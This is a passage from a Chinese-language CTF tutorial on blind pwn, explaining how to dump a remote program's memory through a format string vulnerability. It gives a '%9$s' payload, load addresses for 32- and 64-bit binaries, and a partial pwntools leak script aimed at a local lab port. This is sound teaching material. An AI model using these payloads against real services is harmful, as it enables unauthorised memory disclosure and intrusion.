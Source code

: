 ### dump 程序

dump 程序应该选哪个格式化字符串：

**%n$s** ：将第 n 个参数的值作为地址，输出这个地址指向的字符串内容

**%n$p** ：将第 n 个参数的值作为内容，以十六进制形式输出

我们是需要 dump 程序，也就是想获取我们所给定地址的内容，而不是获取我们给定的地址。所以应该用 **%n$s** 把我们给定地址当作指针，输出给定地址所指向的字符串。结合前面知道格式化字符串偏移为 7 ，payload 应该为：``%9$s.TMP[addr]`` 。

**注意**：使用 %s 进行输出并不是一个字节一个字节输出，而是一直输出直到遇到 \x00 截止符才会停止，也就是每次泄露的长度是不确定的，可能很长也可能是空。因为 .text 段很可能有连续 \x00 ，所以泄露脚本处理情况有：

1. 针对每次泄露长度不等，addr 根据每次泄露长度动态增加；
2. 泄露字符串可能为空，也就是如何处理 \x00 ；

除此之外，还有一个问题是泄露的起始地址在哪里？从各个大佬文章学到两种做法：从 .text 段开始；从程序加载地方开始；两种方法泄露出来程序，在 ida 中呈现有差别。

#### 从程序加载地方开始

先来说省事的，**从程序加载地方开始**。程序加载地方 32 位和 64 位各不相同：

![](_images/Bilnd_Pwn/2020-06-26-CTSvll4wMcTxU1DR.png)

32 位：从 0x8048000 开始泄露

64 位：从 0x400000 开始泄露

下面是这条例题的泄露脚本，结合注解分析如何处理上面提到的问题：

```python
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',10001)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()
```